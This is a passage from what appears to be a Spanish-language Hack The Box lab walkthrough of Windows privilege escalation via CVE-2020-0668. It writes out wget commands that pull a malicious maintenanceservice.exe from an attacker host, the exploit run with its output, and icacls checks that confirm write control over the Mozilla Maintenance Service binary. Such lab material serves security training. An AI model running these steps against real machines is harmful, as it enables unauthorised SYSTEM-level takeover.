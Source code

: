### Downloading the Malicious Binary

Para este paso necesitamos hacer dos copias del archivo **.exe** malicioso. Podemos simplemente pasarlo dos veces o hacerlo una vez y hacer una segunda copia.

Necesitamos hacer esto porque ejecutar el **exploit** corrompe la versión maliciosa de **maintenanceservice.exe** que se mueve a (nuestra copia en `c:\Users\htb-student\Desktop` que estamos apuntando) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` que necesitaremos tener en cuenta más tarde. Si intentamos utilizar la versión copiada, recibiremos un **system error 216** porque el archivo **.exe** ya no es un binario válido.

```r
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

### Running the Exploit

A continuación, ejecutemos el **exploit**. Acepta dos argumentos, los archivos de origen y destino.

```r
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!
```

### Checking Permissions of New File

El **exploit** se ejecuta y ejecutar `icacls` nuevamente muestra la siguiente entrada para nuestro usuario: `WINLPE-WS02\htb-student:(F)`. Esto significa que nuestro usuario **htb-student** tiene control total sobre el binario **maintenanceservice.exe**, y podemos sobrescribirlo con una versión no corrupta de nuestro binario malicioso.

```r
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```
